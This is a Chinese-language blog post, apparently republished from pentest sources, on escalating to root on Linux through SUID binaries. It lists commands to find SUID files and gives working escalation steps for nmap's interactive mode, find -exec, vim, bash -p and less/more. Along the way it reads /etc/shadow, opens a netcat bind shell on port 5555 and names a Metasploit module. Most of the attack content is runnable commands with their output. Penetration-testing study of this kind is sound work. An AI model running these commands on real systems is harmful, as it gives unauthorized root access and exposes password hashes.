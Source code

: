 ### 0x01 简介

SUID 是 Linux 的一种权限机制，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。如果拥有 SUID 权限，那么就可以利用系统中的二进制文件和工具来进行 root 提权。

已知的可以用来提权的 Linux 可执行文件有：

```
Nmap、Vim、find、Bash、More、Less、Nano、cp
```

下面的命令可以发现所有的系统中运行的 SUID 可执行文件:

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \\; 

```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205550820-2072719529.png)

上面的所有二进制文件都可以在 root 权限下运行，因为他们的 owner 是 root，并且他们的权限中含有 s。s 权限使一般使用者临时具有该文件所属主 / 组的执行权限。所以这里就可以假冒 root 用户来执行一些高权操作。

### 0x02 Nmap

早版本的 Nmap(2.02 到 5.21）有交互模式，允许用户执行 shell 命令。Nmap 也是 root 权限下运行的二进制文件。通过参数 interactive 可以进入交互模式:

```
nmap --interactive


```

下面的命令可以对 shell 提权:

```
nmap> !sh
sh-3.2# whoami
root


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205741311-615395143.png)

Metasploit 也有利用 SUID Nmap 进行提权攻击:

```
exploit/unix/local/setuid\_nmap


```

### 0x03 Find

如果 find 以 SUID 权限运行，所有通过 find 执行的命令都会以 root 权限运行。

```
touch pentestlab
find pentestlab -exec whoami \\;


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205840140-716678942.png)

主流的 Linux 操作系统都安装了 netcat，可以将该命令提权为 root shell。

```
find pentestlab -exec netcat -lvp 5555 -e /bin/sh \\;


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205859594-1066722105.png)

当然除了借助 nc 也可以参考其他工具：[\[Shell\] 多姿势反弹 shell](https://www.cnblogs.com/-mo-/p/11988065.html)

### 0x04 Vim

如果 vim 以 SUID 运行，就会继承 root 用户的权限，可以读取系统中所有的文件。

```
vim.tiny /etc/shadow


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114210303667-533476258.png)

通过 vim 运行 shell:

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114210320040-95087654.png)

### 0x05 Bash

下面的命令可以以 root 权限打开 bash shell:

```
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)


```

### 0x06 Less/More

Less 和 more 都可以执行提权的 shell

```
less /etc/passwd
!/bin/sh


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114210540925-986565740.png)

### 0x07 参考链接

[https://www.freebuf.com/articles/system/149118.html](https://www.freebuf.com/articles/system/149118.html)  
[https://pentestlab.blog/2017/09/25/suid-executables/](https://pentestlab.blog/2017/09/25/suid-executables/)
